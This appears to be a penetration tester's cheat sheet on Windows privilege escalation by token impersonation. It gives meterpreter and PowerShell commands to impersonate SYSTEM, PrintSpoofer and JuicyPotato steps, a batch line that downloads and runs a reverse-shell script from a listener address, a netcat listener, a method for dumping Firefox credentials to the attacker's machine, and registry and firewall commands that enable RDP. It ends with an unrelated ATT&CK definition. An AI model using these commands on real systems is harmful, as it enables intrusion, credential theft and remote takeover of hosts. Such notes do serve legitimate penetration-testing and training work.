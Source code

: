### Token Impersonation

`whoami /all` look for privileges to abuse. most commonly abused privileges https://steflan-security.com/linux-privilege-escalation-token-impersonation/

https://jlajara.gitlab.io/Potatoes\_Windows\_Privesc

* SeImpersonatePrivilege OR SeAssignPrimaryToken
  1. `load incognito` in meterpreter
  2. `list_tokens -g` -- this will show tokens available for impersonation
  3. `Invoke-TokenManipulation.ps1` -- powershell version to sho tokens available for impersation
     1. `import-module .\Invoke-TokenManipulation.ps1`
     2. `.\Invoke-TokenManipulation -Enumerate`
     3. `.\Invoke-TokenManipulation -ImpersonateUser -Username "something\administrator"`
     4. `.\Invoke-TokenManipulation -ImpersonateUser -Username "nt authority\system"`
  4. `impersonate_token "BUILTIN\Administrators` -- use this command Note: "BUILTIN\Administrators" is an example token
  5. For Windows Server 2016 and Windows Server 2019
     1. upload printspoofer.exe to target
     2. PrintSpoofer.exe -i -c cmd
  6. `migrate PID` to services.exe to ensure yourself with correct permissions
  7. `JuicyPotato.exe` -- download to target.
     1. download Invoke-PowerShellTcp.ps1 to target and add `Invoke-PowerShellTcp -Reverse -IPAddress listeneraddress -Port portnumber` to the end of the file
     2. create execute.bat with contents `PowerShell "IEX(New-Object Net.WebClient).downloadString('http://listeneraddress/Invoke-PowerShellTcp.ps1')"` and download to target
     3. run .\JuicyPotato.exe -t \* -p execute.bat -l portnumber
     4. setup nc listener with portnumber
* SeAssignPrimaryPrivilege
* SeTcbPrivilege
* SeBackupPrivilege
  1. `diskshadow /s cmd`
* SeRestorePrivilege
* SeCreateTokenPrivilege
* SeLoadDriverPrivilege
* SeTakeOwnershipPrivilege
* SeDebugPrivilege
* Is Mozilla Firefox installed? if so dump credentials. you will need to transfer these to your attacker machine and use python script to decrypt.
  * `C:\Users\alice\APPDATA\Roaming\Mozilla\Firefox\Profiles\` example path to a users credentials
  * https://github.com/unode/firefox\_decrypt
* `Invoke-RunasCS -Username USERNAME -Password PASSWORD -Command "whoami"` -- found credentials? upload and run script.
* Enable rdp and allow through firewall
  1. `reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`
  2. `netsh advfirewall firewall set rule group="administrators" new enable=Yes`
  3. for older systems `netsh firewall set service type = remotedesktop mode = enable`

### Random Software

_Custom or commercial code, operating system utilities, open-source software, or other tools used to conduct behavior modeled in ATT\&CK._
